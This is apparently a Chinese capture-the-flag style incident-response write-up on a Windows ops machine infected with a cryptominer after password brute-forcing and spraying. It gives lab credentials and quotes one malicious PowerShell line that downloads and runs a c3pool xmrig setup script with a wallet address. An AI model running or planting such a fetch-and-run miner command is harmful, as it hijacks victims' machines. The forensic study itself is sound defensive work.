 :::info

前景需要：机房运维小陈，下班后发现还有工作没完成，然后上机器越用越卡，请你帮他看看原因。



挑战题解：

攻击者的IP地址

攻击者开始攻击的时间 

攻击者攻击的端口

挖矿程序的md

后门脚本的md5

矿池地址

钱包地址

相关账户密码：

Administrator/zgsf@123

:::

### `rdp`连接上机器

首先打开`windows`管理工具

![image-20241029214759167](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241029214759167.png)

然后就查看，有没有后门账户，有没有计划任务，查看日志，查看注册表

`shell:startup`

![image-20241029214958499](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241029214958499.png)

查看自启动任务

`计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

![image-20241029215303186](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241029215303186.png)

存在一个批处理文件，部分内容如下：

```
$wc.DownloadFile('https://download.c3pool.org/xmrig_setup/raw/master/setup_c3pool_miner.bat', $tempfile); & $tempfile 4APXVhukGNiR5kqqVC7jwiVaa5jDxUgPohEtAyuRS1uyeL6K1LkkBy9SKx5W1M7gYyNneusud6A8hKjJCtVbeoFARuQTu4Y;
```

发现挖矿域名地址`c3pool.org`

钱包地址：`4APXVhukGNiR5kqqVC7jwiVaa5jDxUgPohEtAyuRS1uyeL6K1LkkBy9SKx5W1M7gYyNneusud6A8hKjJCtVbeoFARuQTu4Y`

![image-20241029215847206](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241029215847206.png)

同时，火绒剑也发现

![image-20241029215707895](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241029215707895.png)

### `LogParser.exe`日志分析

上传windows一键日志分析工具

![image-20241029215939466](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241029215939466.png)

发现存在爆破记录

ip为`192.168.115.131`，时间:`2024-05-21 20:25:22`

发现可疑文件

![image-20241029220200980](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241029220200980.png)

那么这个就是`xmrig.exe`挖矿程序

已知条件，是一台运维的电脑，那么说明，不会去跑任何业务，打开桌面上的表格看看

![image-20241029220502454](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241029220502454.png)

密码都是统一的，说明可能是攻击者在拿到一台的密码后进行的密码喷洒

### 总结

一开始电脑上没有进程，就是用工具进行分析，然后翻文件
